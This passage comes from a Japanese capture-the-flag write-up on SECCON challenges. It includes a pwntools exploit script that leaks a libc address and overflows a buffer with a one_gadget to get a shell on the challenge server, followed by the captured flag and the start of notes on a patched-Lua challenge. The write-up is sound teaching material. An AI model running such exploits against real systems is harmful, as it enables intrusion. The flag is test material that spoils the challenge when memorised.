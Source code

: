 実際に ret する時のレジスタを見ると、ちょうど２つ目が刺さりそうなのでオフセット計算してやるとシェルが取れます。

explot.py

```
io = remote("koncha.seccon.games", 9001)

binary = ELF('./patched', checksec=True)

def exploit():
    payload = b''
    io.sendline(payload)

    io.recvuntil(b"you, ")
    got = unpack(io.recv(6) + b'\x00\x00')
    log.info(f'got leaked address {hex(got)}')

    libc_base = got - 2036456
    assert libc_base & 0xfff == 0
    log.success(f'got libc base address {hex(libc_base)}')

    one_gadget = libc_base + 0xe3b01
    payload = b'B' * 0x50
    payload += pack(0xdeadbeef) # rbp
    payload += pack(one_gadget) # ret
    io.sendline(payload)

    io.success("we got real world")
    io.interactive()
    pass

if __name__ == '__main__':
    exploit()
```

flag

```
SECCON{I_should_have_checked_the_return_value_of_scanf}
```

## lslice

> Commit: cfbe378f906061ee56f91acfbdf569d0d3fb9556

気合で解きました。

さて、配布されたファイルを見ると patch.diff があります。また、問題文に Commit がありますが、これは Lua へのコミットで、patch のベースだと推測できます。

ということで、実際に `git apply` で patch を当て、makefile の CFLAGS に-g を追加してデバッグ情報をつけた状態でビルドします。

ELF の構造上、デバッグ情報は後ろの方にあるため、-g をつけてもつけなくてもオフセットはあんまり変わりません。なのでデバッグ情報付きのバイナリで動いた exploit がそのまま本番で通用するすることが多いです。
ただビルド環境だけは揃える必要があるので、さっきと同じ様に strings で GCC バージョンなどを確認して、docker 内でビルドし、同じ様に debuglink を張ります。

patch の内容は大きく分けて３つあります。
